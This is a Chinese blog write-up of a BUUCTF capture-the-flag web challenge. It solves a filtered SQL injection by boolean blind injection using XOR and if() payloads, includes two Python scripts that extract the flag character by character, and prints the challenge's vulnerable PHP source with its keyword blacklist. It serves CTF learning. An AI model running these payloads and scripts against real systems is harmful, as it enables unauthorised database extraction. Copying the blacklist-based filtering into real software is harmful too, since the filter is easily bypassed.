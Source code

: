 <!--yml
category: 未分类
date: 2022-04-26 14:38:34
-->

# BUUCTF__[CISCN2019 华北赛区 Day2 Web1]Hack World_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/106978766](https://blog.csdn.net/tm_1024/article/details/106978766)

## 前言

*   又是颓废的一天，在家已经5个月了
*   做题速度太慢了。。。跟不上进度。我是懒狗

## 读题

*   sql注入题，而且直接告诉你flag在表flag中的flag字段。让你提交查询id
    ![在这里插入图片描述](img/eda65bc22100a4964326689f9f53efec.png)
*   查询1和2会有回显，输入其它数值都会提示错误。
*   抓包跑一下字典看一下过滤的内容（学到的新技能，原来bp的intruder还能这样用），字典的内容就是常见的sql注入的一些函数名、符号啥的
*   不过有一点是，BUU有限制，访问太快会提示429拒绝访问，所以，需要设置一下延时，我这个设置的有点慢。。。
    ![在这里插入图片描述](img/6ad21431763d3f68c81be191cfef9d02.png)
*   跑完看返回的报文，返回长度有493、492、482、472。分别对应不同的回显
*   493
    ![在这里插入图片描述](img/b260335cff2219db91718c9855074844.png)
*   492

![在这里插入图片描述](img/334c7f1290d39f9c069706af58b52b07.png)

*   482
    ![在这里插入图片描述](img/747ee9dddda13bdac26e8fd3dfeff9d5.png)
*   472
    ![在这里插入图片描述](img/65f82d4aa3927a807711bf6814492d0c.png)
*   主要是482的过滤和472返回的fool，也没有其它回显，所以猜测布尔盲注。但是空格、 or、and 都被过滤了
*   接下来的操作又是新的知识点

## 研究

### 一、sql异或运算

*   了解参考[这篇文章](https://www.jianshu.com/p/27df5c67157c)

*   大概在这里应用就是`假^假 =真` ，`真^真=假`，`假^真=真`，`真^假=真`

*   当我们查询 `1^0`、`0^1`、和 `1` 的回显是一样的，而查询 `1^1` 或`0^0`却会有报错提示。

*   所以结合 sql语句 ，我们可以构造`0^payload`，若为payload结果真，则返回1，`0^1=1`，将得到查询id=1时的结果，回显Hello, glzjin wants a girlfriend。

*   但如何构造payload，因为空格被过滤，所以用括号来代替分割，这里也算学的新方法，利用ASCII码来逐一匹配

    ```
     0^(ascii(substr((select(flag)from(flag)),1,1))>1) 
    ```

*   肯定不可能手工盲注，所以，还是 python 脚本

```
import requests
import time
import re
url='http://d46c0271-1651-4746-9c9a-e9a975bfcd95.node3.buuoj.cn/index.php'
flag = ''
for i in range(1,43):
    max = 127
    min = 0
    for c in range(0,127):
        s = (int)((max+min)/2)
        payload = '1^(ascii(substr((select(flag)from(flag)),'+str(i)+',1))>'+str(s)+')'
        r = requests.post(url,data = {'id':payload})
        time.sleep(0.005)
        if 'Hello, glzjin wants a girlfriend.' in str(r.content):
            max=s
        else:
            min=s
        if((max-min)<=1):
            flag+=chr(max)
            break
print(flag) 
```

*   这是一位师傅的脚本，设置了延时，防止429, 用二分法成功得到flag
    ![在这里插入图片描述](img/ab6f8f3adacaf358d7e6e35b48e5a26a.png)

### 二、 sql的三目运算

> if( 表达式1，表达式2，表达式3)

> 如果表达式1是正确的，那么执行表达式2，否则执行表达式3

*   如果 if 返回正确，则执行 1 ，返回 Hello, glzjin wants a girlfriend. 否则执行 2 ，则返回 Do you want to be my girlfriend?

    ```
     if(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'),1,2) 
    ```

*   差不多的脚本，只是payload有点差别而已。

```
import requests

url = 'http://d46c0271-1651-4746-9c9a-e9a975bfcd95.node3.buuoj.cn/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        if 'Hello' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result) 
```

*   也同样的成功跑出flag
    ![在这里插入图片描述](img/74f96e51fcffc4e5a92949e7d7d94850.png)

### 三、题目源码

```
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");

    if($query){
        $result = mysql_fetch_array($query);

        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
        var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
} 
```

## 最后

*   感觉这题知识点就是布尔盲注，结合绕过、亦或、脚本编写等其它知识点来考察。
*   附上[题目链接](https://buuoj.cn/challenges#%5BCISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1%5DHack%20World)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)